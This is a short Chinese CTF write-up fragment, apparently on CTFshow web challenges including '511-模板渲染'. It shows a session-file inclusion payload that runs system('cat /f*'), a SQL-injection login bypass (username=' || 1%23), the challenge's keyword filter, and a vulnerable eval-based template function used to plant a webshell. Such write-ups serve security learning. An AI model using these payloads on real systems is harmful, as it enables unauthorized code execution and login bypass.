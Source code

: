 session目录开头就是user，登录然后头像这写一句话，因为没有对avator限制

![](https://s2.loli.net/2022/03/09/lnX6RacY2kf4MHG.png)



```
api/admin_file_view.php

POST:
debug=1&f=/tmp/sess_ena09q6nff325602u5hcs30n57&1=system('cat /f*');
```



## 511-模板渲染

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

sess被ban了，

```php
if(preg_match('/php|sml|phar|\:|data|file|sess/i', $f)){
               $ret['msg']='请不要使用此功能';
               die(json_encode($ret));
}
```

看了y4师傅和群主大大的wp，好像是模版渲染，利用模版变量来写马

读一下相关源码，咱们就可以把

有些绕，具体可能得看群主的视频

```php
# render/render_class.php

public static function checkVar($templateContent,$arg){
    foreach ($arg as $key => $value) {
        if(stripos($templateContent, '{{var:'.$key.'}}')){
            eval('$v='.$value.';');
            $templateContent=str_replace('{{var:'.$key.'}}', $v, $templateContent);
        }
    }
    return $templateContent;
}
```

会从session里递归访问$arg，获取key和value，这里进到if判断(模版变量`{{var:'.$key.'}}`有在$templateContent里出现) 就可以调用到`eval('$v='.$value.';');`

